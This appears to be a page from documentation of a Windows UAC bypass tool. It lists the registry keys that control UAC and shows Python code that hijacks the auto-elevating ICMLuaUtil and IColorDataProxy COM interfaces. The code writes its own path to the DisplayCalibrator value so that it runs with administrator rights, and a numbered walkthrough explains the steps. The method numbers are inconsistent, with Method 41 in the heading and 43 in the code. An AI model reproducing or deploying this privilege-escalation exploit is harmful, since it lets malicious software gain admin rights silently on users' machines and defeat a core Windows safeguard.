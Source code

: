 **Real UAC Settings Location (requires admin):**
```
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System
├── EnableLUA (must write to HKLM to actually disable UAC)
├── ConsentPromptBehaviorAdmin (must write to HKLM)
└── PromptOnSecureDesktop (must write to HKLM)
```

---

### **Method Category 3: COM Interface Abuse** 🔴 (HKLM Access)

**Method:** ICMLuaUtil COM Interface (Method 41)

**Function:** `bypass_uac_dccw_com()` (Line 2310)

**Code:**
```python
def bypass_uac_dccw_com():
    """UAC bypass using IColorDataProxy COM interface (UACME Method 43)."""
    
    try:
        # First use ICMLuaUtil to set registry
        lua_util = win32com.client.Dispatch("Elevation:Administrator!new:{3E5FC7F9-9A51-4367-9063-A120244FBEC7}")
        
        current_exe = os.path.abspath(__file__)
        
        # Set DisplayCalibrator registry value
        reg_path = r"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ICM\Calibration"
        lua_util.SetRegistryStringValue(2147483650, reg_path, "DisplayCalibrator", current_exe)
        
        # Create IColorDataProxy COM object
        color_proxy = win32com.client.Dispatch("Elevation:Administrator!new:{D2E7041B-2927-42FB-8E9F-7CE93B6DC937}")
```

**Registry Key:**
- 🔴 Writes to: `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ICM\Calibration`
- 🔴 Admin needed? **Technically YES, but bypassed via COM**

**How It Works:**

```
1. Abuse ICMLuaUtil COM interface
   CLSID: {3E5FC7F9-9A51-4367-9063-A120244FBEC7}
   This COM object has auto-elevation privilege

2. Call SetRegistryStringValue() method
   Writes to HKLM through the elevated COM interface

3. Abuse IColorDataProxy COM interface
   CLSID: {D2E7041B-2927-42FB-8E9F-7CE93B6DC937}
   Triggers execution of the hijacked path
```
